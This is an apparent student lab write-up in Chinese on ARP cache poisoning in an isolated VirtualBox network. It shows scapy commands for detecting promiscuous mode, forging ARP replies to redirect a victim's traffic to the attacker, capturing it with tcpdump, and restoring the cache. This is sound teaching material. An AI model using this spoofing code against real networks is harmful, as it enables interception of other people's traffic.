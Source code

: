# 模拟ARP投毒实验：


## 实验目标：

* 用scapy毒化”目标主机的 ARP 缓存
* 基于 scapy 编写 ARP 投毒劫持工具



## 实验环境：

* VirtualBox 6.1.26

* 攻击者主机： kali 2021.2 (内部网络2) 

* 网关：Debian 10 （内部网络2)

* 靶机：Debian 10 （内部网络2）

使用内部网络来最小化实验干扰。



## 实验过程：

#### 网络拓扑：

![net_structure](img/net_structure.png)

| 主机名        | IP地址            | MAC地址           |
| ------------- | ----------------- | ----------------- |
| gw-debian     | 172.16.222.1/24   | 08:00:27:df:22:5b |
| attacker-kali | 172.16.222.102/24 | 08:00:27:02:c5:a1 |
| victim-debian | 172.16.222.123/24 | 08:00:27:d5:ce:d8 |



### 实验一：检测局域网中的异常终端：

**1.打开攻击者主机上的scapy：**

kali系统内置scapy，如果没有则进入到python环境中[通过pip安装](https://pypi.org/project/scapy/)

需要通过sudo权限启动scapy，启动成功过后显示如下：

![scapydownload](img/scapydownload.png)



**2.检测受害者主机网卡的「混杂模式」是否启用：**

通过ssh连接受害者主机（此步可省略）

输入命令`ip a` （或者在已知网卡名的情况下输入：`ip link show [网卡名]`）观察目标网卡状态：

![promisc-off](img/promisc-off.png)

明确观察到无 `PROMISC` 关键字样，确认混杂模式关闭

使用攻击者主机的scapy交互式终端向受害者主机发送一个混杂模式探听包：

```
pkt = promiscping("[受害者靶机ip地址]")
```

从scapy的输出结果中可见没有得到相应。

![no-receive](img/no-receive.png)

回到受害者主机上手动开启该网卡的混杂模式

```
sudo ip link set [网卡名] promisc on
ip link show [网卡名]
```

![promisc-on](img/promisc-on.png)

明确观察到有 `PROMISC` 关键字样，确认混杂模式开启

重复刚才在攻击者主机上的操作，可以发现现在scapy的结果中成功出现送达了一个包的提示：

![1package](img/1package.png)

最后关闭受害者靶机的混杂模式：

```
sudo ip link set [网卡名] promisc off
```



### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成：

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="[网关IP地址]")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="[伪装成的网关ip]", pdst="[靶机ip]", hwdst="[攻击者主机MAC]")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed) #该函数并不能将靶机毒化

send(arpspoofed) #需要毒化得使用send函数
```

以上代码执行结果状态如下：

![arpspoof](img/arpspoof.png)

然后观察靶机的arp缓存变化：`ip neigh`

![arp_change](img/arp_change.png)

可见原本网关的mac地址在毒化后变成了攻击者主机的mac地址了。

此时我们要是在攻击者主机上进行抓包，则可以成功截获来自靶机的申请：

```
tcpdump -i [局域网卡] -n
```

![tcpdump](img/tcpdump.png)



回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="[网关ip地址]", hwsrc="[网关MAC]", pdst="[靶机ip]")
sendp(restorepkt1, count=100, inter=0.2)
```

完成后在靶机上检查：

![refreshed](img/refreshed.png)

可见ARP缓存已经恢复



> sendp(arpspoofed)并不能够成功毒化靶机的arp缓存，只有send(arpspoofed)才能成功毒化，这两个函数的区别在于send()工作在第三层，而sendp()工作在第二层。简单地说，send()是用来发送IP数据包的，而sendp()是用来发送Ether数据包的。



### 实验三：使用自动化工具完成 ARP 投毒劫持实验

使用kali中带有的arpspoof工具完成投毒，具体参数如下：

![arpspoof_tool](img/arpspoof_tool.png)



### 实验四：基于 scapy 编写 ARP 投毒劫持工具

编写python脚本： [AutoArpSpoof.py](AutoArpSpoof.py)  完成对靶机的持续投毒

投毒结果：

![keepspoof](img/keepspoof.png)



## 参考资料

* [第四章课程资料](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#%E5%AE%9E%E9%AA%8C)

* [Scapy官方文档](https://scapy.readthedocs.io/en/latest/)

